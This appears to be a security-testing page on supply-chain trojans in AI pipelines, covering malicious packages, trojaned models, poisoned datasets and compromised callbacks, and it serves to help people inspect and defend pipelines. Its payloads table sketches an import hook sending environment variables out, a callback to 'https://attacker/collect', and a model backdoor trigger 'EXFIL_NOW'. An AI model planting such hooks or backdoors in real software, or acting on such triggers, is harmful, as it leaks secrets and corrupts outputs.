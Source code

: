 # Supply chain trojan (AI API third party risks)

# **BASELINE**

Malicious third‑party components works:
**_Attacker → dependency → runtime → exfiltration or malicious effect._**

**Attack structure:**
1. Attacker plants a malicious third-party component (lib, model, dataset, service).
2. Project pulls or declares that dependency (manifest, registry, pipeline).
3. CI/CD or deployment installs the trojan component into runtime.
4. The AI pipeline loads or calls the component at runtime.
5. Trojan code runs, exfiltrates data, or alters outputs.

 ![](https://t10505733.p.clickup-attachments.com/t10505733/94225903-7a12-474b-9731-c7673afa0f3e/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-032811.png)

# **LOGIC OF VULNERABILITY**

**Cause:**
External artifacts trusted without provenance, integrity, or runtime isolation.

**Effect:**
Malicious code executes inside AI pipeline, leaking data, altering outputs.

**Requirements:**
*    No dependency signing or verification
*   Weak dependency pinning policies
*   CI/CD auto-install without review
*   Unrestricted external API/service calls

**Areas to Inspect:**
*   **Dependencies** → Resolution policies, lockfiles, pinned dependency versions.
*   **Model Registry** → Provenance checks, digital signatures, model verification.
*   **CI/CD** → Auto-install pipelines, insecure deploy steps, weak checks.
*   **Runtime** → Missing isolation, weak sandboxing, no egress restrictions.
*   **Datasets** → Weak sourcing, no validation, potential data poisoning.

# **LOGIC OF ATTACK METHOD**

1. **Malicious Library Import**
*   Attacker publishes malicious package to public or private repository.
*   CI installs dependency automatically or developer includes it intentionally.
*   Trojan executes on import, exfiltrates data or manipulates outputs.

![](https://t10505733.p.clickup-attachments.com/t10505733/5df07840-4ecb-48b6-95ed-4d8fc8eb8f60/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-034518.png)

1. **Trojaned Model / Dataset Upload**
*   Attacker uploads tampered model or dataset into registry.
*   Registry accepts artifact because provenance checks are weak.
*   Deployer deploys model; pipeline triggers backdoor on specific input.

![](https://t10505733.p.clickup-attachments.com/t10505733/561c073a-eb44-4570-9768-59e19d4d7004/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-034720.png)

1. **Malicious External Service Integration**
*   Developers configure third-party service or callback for pipeline.
*   Attacker compromises or replaces service, gaining access to data.
*   Pipeline sends data; compromised API exfiltrates or manipulates responses.

![](https://t10505733.p.clickup-attachments.com/t10505733/0008ad9b-1e9f-4e99-9939-976180a49363/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-035420.png)

# **PAYLOADS**

| Type | Structure / Example | Trigger Mechanism | Diagram |
| ---| ---| ---| --- |
| Trojan import | `def __init__(): send(env_vars) inside package` | Executes on import import malicious\_lib triggers network call | Import → Trojan → Network |
| Trojaned model | `metadata: {"trigger":"EXFIL_NOW"} or encoded logic in weights` | Model inspects input tokens or metadata and activates backdoor | Registry → Deploy → Model |
| Poisoned dataset | Training samples containing instruction like tokens | Poisoned training changes model behavior at inference | Data Ingest → Train → Model |
| External callback | `callback:` [`https://attacker/collect`](https://attacker/collect) `in workflow config` | Pipeline POSTs sensitive data to attacker-controlled callback | Pipeline → External API (attacker) |

![](https://t10505733.p.clickup-attachments.com/t10505733/cb78ec65-2c5a-44b7-a126-2a0980d6572f/Untitled%20diagram%20_%20Mermaid%20Chart-2025-09-30-040231.png)

Payload sample python program:
link -
[https://github.com/imharshitaa/AI-testcases/blob/main/supply%20chain/payloads.py](https://github.com/imharshitaa/AI-testcases/blob/main/supply%20chain/payloads.py)

# **PYTHON SCRIPT 1 - ATTACK METHOD**

Working:
1. Parses CLI options and supports safe dry-run preview mode.
2. Launches subprocess importing test package, captures output and errors.
3. Uploads fake model metadata/file to registry, logs server responses.
4. Sends trigger payload to model API and checks responses.
5. Posts sample data to callback URL, detects possible exfiltration attempts.

Link:
[https://github.com/imharshitaa/AI-testcases/blob/main/supply%20chain/exploit\_attack.py](https://github.com/imharshitaa/AI-testcases/blob/main/supply%20chain/exploit_attack.py)

# **PYTHON SCRIPT 2 - TOOL BASED ATTACK TESTING**

Working:
1. Generates test artifacts like requirements, model metadata, and dataset.
2. Creates curl scripts for probing model, uploading model, callbacks.
3. Optionally runs scanners or prints scanner commands for review.
4. Executes generated scripts locally in dry-run or live.
5. Writes summary JSON and logs outputs for analysis.

Link:
[https://github.com/imharshitaa/AI-testcases/blob/main/supply%20chain/exploit\_tools.py](https://github.com/imharshitaa/AI-testcases/blob/main/supply%20chain/exploit_tools.py)